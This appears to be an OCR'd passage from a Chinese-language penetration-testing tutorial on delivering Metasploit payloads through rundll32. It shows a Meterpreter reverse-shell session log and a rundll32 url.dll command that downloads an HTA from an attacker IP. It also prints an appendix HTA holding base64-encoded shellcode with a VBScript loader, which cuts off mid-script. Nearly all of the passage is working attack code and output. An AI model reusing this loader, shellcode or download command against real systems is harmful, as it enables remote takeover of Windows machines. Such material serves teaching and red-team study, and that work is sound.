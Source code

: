     [*] Started reverse TCP handler on 192.168.1.4:53
    [*] Sending stage (179779 bytes) to 192.168.1.3
    [*] Meterpreter session 5 opened (192.168.1.4:53 ‐> 192.168.1.3:5018) at
    2019‐01‐21 04:41:43 ‐0500
    
    meterpreter > getuid
    Server username: John‐PC\John
    meterpreter > getpid
    Current pid: 8584
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010233416610.png%23pic_center)-
同样可以调用url.dll下载payload：

    rundll32.exe url.dll,OpenURL http://192.168.1.4/Micropoor_url_dll.hta
    
        

附录：Micropoor\_url\_dll.hta

    Dim binary : binary = "rundll32.exe"
    Dim code : code = "/OiCAAAAYInlMcBki1Awi1IMi1IUi3IoD7dKJjH/rDxhfAIsIMH PDQHH4vJSV4tSEItKPItMEXjjSAHRUYtZIAHTi0kY4zpJizSLAdYx/6zBzw0BxzjgdfYDffg7 fSR15FiLWCQB02aLDEuLWBwB04sEiwHQiUQkJFtbYVlaUf/gX19aixLrjV1oMzIAAGh3czJfV GhMdyYHiej/0LiQAQAAKcRUUGgpgGsA/9VqCmjAqAEEaAIAADWJ5lBQUFBAUEBQaOoP3+D/1Z dqEFZXaJmldGH/1YXAdAr/Tgh17OhnAAAAagBqBFZXaALZyF//1YP4AH42izZqQGgAEAAAVmo AaFikU+X/1ZNTagBWU1doAtnIX//Vg/gAfShYaABAAABqAFBoCy8PMP/VV2h1bk1h/9VeXv8M JA+FcP///+mbAcMpxnXBw7vwtaJWagBT/9U="
    Sub Debug(s) End Sub Sub SetVersion End Sub Function Base64ToStream(b) Dim enc, length, ba, transform, ms Set enc = CreateObject("System.Text.ASCIIEncoding") length = enc.GetByteCount_2(b) Set transform = CreateObject("System.Security.Cryptography.FromBase64Transform") Set ms = CreateObject("System.IO.MemoryStream") ms.Write transform.TransformFinalBlock(enc.GetBytes_4(b), 0, length), 0, ((length / 4) * 3) ms.Position = 0 Set Base64ToStream = ms End Function Sub Run
    Dim s, entry_class